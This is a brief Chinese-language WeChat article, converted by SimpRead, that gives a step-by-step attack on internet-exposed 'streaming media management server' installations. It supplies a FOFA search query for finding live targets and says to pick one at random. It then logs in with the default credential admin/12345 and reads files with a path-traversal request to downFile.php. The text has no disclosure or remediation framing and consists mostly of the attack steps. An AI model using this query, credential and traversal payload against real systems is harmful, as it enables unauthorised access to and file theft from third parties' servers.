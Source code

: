> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/921TxlRIHwgmXnihm87Qyw)

fofa 语法：  

title="流媒体管理服务器"

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0aVPQ1NYS8oM9B6Tiaico7ibXGDEh1zYvUArXWzXh1GqDNOYZ5Hssrba9yPBrYVZn0PVibfGfm8HIxqw/640?wx_fmt=png)

我们随便点一个进去  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0aVPQ1NYS8oM9B6Tiaico7ibXdmHpSnoC9sZibhB9JgCM3OAAaRB3y0tPVxrUpRYhtuia0gRvRibQ0spew/640?wx_fmt=png)

通用弱口令 admin/12345  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0aVPQ1NYS8oM9B6Tiaico7ibXeJrArVibH3g5Zr9EhALvTsMmE3BjCHdSyWS9iakuN0XUQXync6pVz2mA/640?wx_fmt=png)

接着开始文件读取  

/systemLog/downFile.php?fileName=../../../../../../../windows/win.ini

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0aVPQ1NYS8oM9B6Tiaico7ibXOHQtRYk8K4qRsJJ6BVbnywBPasDdJJviadSlSvgt3WNAayDibyE6q6Kg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0aVPQ1NYS8oM9B6Tiaico7ibXK84C3szSCZClRuicf3hcu1OLTGq4kPibXH6dgNPO6E7B6Br3cIPqUInA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0aVPQ1NYS8oM9B6Tiaico7ibXmIEpEHy2LYxiceq7FqWibrnwqJne7kZ4iaXQGXfPt3ZvOI7G9Bianq9pQw/640?wx_fmt=png)

